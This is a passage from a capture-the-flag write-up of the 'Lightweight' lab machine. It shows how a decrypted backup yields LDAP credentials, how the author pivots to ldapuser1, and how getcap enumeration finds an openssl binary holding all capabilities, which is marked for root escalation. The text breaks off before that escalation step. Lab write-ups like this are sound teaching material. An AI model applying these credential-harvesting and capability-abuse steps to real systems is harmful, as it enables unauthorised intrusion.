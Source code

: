 It found the password to be “_delete_”. Let’s use that to decrypt the file.

```text
7z x backup.7z
```

Looking through the files, we find that the file _status.php_ contains the credentials for _ldapuser1_.

```text
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
```

This allows us to pivot to that user.

```text
su - ldapuser1
```

Enumerate the directories and files in the home directory.

```text
[ldapuser1@lightweight ~]$ ls -la
total 1496
drwx------. 4 ldapuser1 ldapuser1    181 Jun 15  2018 .
drwxr-xr-x. 6 root      root          77 Jan 25 19:35 ..
-rw-------. 1 ldapuser1 ldapuser1      0 Jun 21  2018 .bash_history
-rw-r--r--. 1 ldapuser1 ldapuser1     18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser1 ldapuser1    193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser1 ldapuser1    246 Jun 15  2018 .bashrc
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .cache
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15  2018 capture.pcap
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .config
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15  2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13  2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13  2018 tcpdump
```

That’s odd, the user has his own instance of _openssl_ in his home directory. We can’t run it with sudo or suid privileges, so let’s check if the binary is configured with any linux capabilities.

```text
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```

It’s assigned “_ep_” which means that this openssl binary has ALL the capabilities permitted \(p\) and effective \(e\). We can use this misconfiguration to escalate privileges to root.
